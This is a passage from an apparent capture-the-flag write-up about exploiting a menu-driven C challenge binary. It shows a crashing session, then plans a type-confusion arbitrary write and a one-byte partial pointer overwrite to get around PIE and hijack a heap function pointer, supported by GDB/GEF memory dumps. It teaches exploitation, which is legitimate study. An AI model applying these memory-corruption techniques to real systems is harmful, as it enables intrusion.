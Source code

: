 ```
2
What is your value:
21861
Variable created
What would you like to do?
1. Create new object
2. Display objects
3. Edit Object
4. Delete Object
5. Exit
3
What index would you like to modify?
0
What type would you like?

1. String
2. Integer
3. Long Long
4. Character
1
What size would you like your string to be
35
What is your data
bbbbbbbbbbbbbbbbbbbbbb
Variable created
What would you like to do?
1. Create new object
2. Display objects
3. Edit Object
4. Delete Object
5. Exit
2
Segmentation fault
```
## Planning the Exploit:

This exploit presents a fairly obvious opportunity for an arbitrary write; however, the presence of PIE as a defense means that I cannot, for instance, simply overwrite a GOT entry with my win function, because I do not know where the GOT is. As a result, I decided to look into a partial-overwrite strategy. If I edit strings to chars and back again, that should only overwrite the least-significant bit in my pointer. If I break on the create_variable function in GDB/GEF, as called from an edit, I can see that, if I am not overwriting anything, the string is read into a heap location as expected. In one specific instance, it is getting read into the address 0x000055e909e09290. If I then look at all the addresses with the same seven most significant bytes, i.e. ones I could write to instead by overwriting the least significant byte with a char, I see that the address for the print function pointer from the struct definition, where the address for display_string is stored in this case, is kept at 0x55e909e09270.
```
read@plt (
   $rdi = 0x0000000000000000,
   $rsi = 0x000055e909e09290 → "00000000000000000000",
   $rdx = 0x0000000000000014
)
...
gef➤  x/40gx 0x000055e909e09200
0x55e909e09200:	0x0000000000000000	0x0000000000000000
0x55e909e09210:	0x0000000000000000	0x0000000000000000
0x55e909e09220:	0x0000000000000000	0x0000000000000000
0x55e909e09230:	0x0000000000000000	0x0000000000000000
0x55e909e09240:	0x0000000000000000	0x0000000000000000
0x55e909e09250:	0x0000000000000000	0x0000000000000031
0x55e909e09260:	0x0000001400000001	0x000055e909e09290
```